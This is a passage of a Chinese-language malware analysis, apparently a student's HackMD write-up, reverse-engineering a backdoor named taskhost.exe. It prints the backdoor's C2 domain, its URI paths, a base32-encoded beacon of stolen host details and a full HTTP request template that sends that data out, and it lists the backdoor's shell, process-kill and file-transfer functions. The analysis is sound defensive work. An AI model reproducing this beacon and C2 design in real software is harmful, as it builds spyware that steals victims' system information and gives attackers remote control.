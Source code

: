 7. Analyze taskhost.exe
    請查閱後門功能這個Section



### 通訊協定
因為我沒有實際架一個server讓他連線，所以我是直接錄一個失敗的connection，看他丟了什麼出來
![圖片](https://hackmd.io/_uploads/rkwPnVcT6.png)
:::danger
如果之後還有時間可以想辦法架一個C2 Server，實際去構造連線的封包
:::

### 加解密演算法
如上所述

### 後門功能
先說明一下這個後門在幹麻，順一下流程
1. 在main function中實作了一個MD5 hash function，並且從0開始算直到符合`ef775988943825d2871e1cfa75473ec0`，其實這個就是99999999，我不太確定這一段為什麼要做這件事，可能的原因我想有兩個，其一是想要做到PoW的效果，其二是不想要太快執行到關鍵的地方，讓使用者可以放下戒心，但兩個原因都不太能說服自己就是了
2. 接著他decode出了類似port的1228這個數字和C2 server name:==uacmoscow.com==，我不太確定這個1228是幹嘛的
3. 接著進入到while loop想辦法fetch到電腦的一些資訊:
    1. Local IP
    2. OEM Code
    3. Tick Count(從開機時間開始到現在過了多久)
    4. 目前電腦的架構是多少
    5. OS版本
    6. Domain Name
    7. Username
    8. Computer Name
    9. Proxy Server有無開啟
4. 先組織好URI→`/ru/order/index.php?strPageID=2396956864`，以我的VM為例，我的IP是`192.168.222.142`，換算成hex就是`0x8edea8c0`
5. 用base32 encode前面得到的所有電腦資訊，以我的VM為例: `KNFVIT2QFUZEGM2JKFEE6AYAKJCU2DYAIRCVGS2UJ5IC2MSDGNEVCSCPAAAAIABRGIZDQ===`
6. 建構封包:
    ```
    Host: uacmoscow.com
    Connection: keep-alive
    Accept: */*
    User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36
    Accept-Encoding: gzip, deflate
    Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
    Cookie: JSESSIONID=AHAKRXUOWUAQAAGUHPKAIAAAAAAAMAAAAABAAAAAAEHQARCFKNFVIT2QFUZEGM2JKFEE6AYAKJCU2DYAIRCVGS2UJ5IC2MSDGNEVCSCPAAAAIABRGIZDQ===
    ```
7. 嘗試用Get方式傳送出去，但是因為這個domain掛了，所以有關於連線的地方大部分都是靜態去看
8. 如果連線成功他就可以執行以下幾件事情:
    1. 獲取所有目前process的相關資訊後，利用Post傳送出去→`/xhome.native.page/datareader.php?sid=2396956864`
    2. 終止Process
    3. 開Shell
    4. 從Server傳送資料到Local
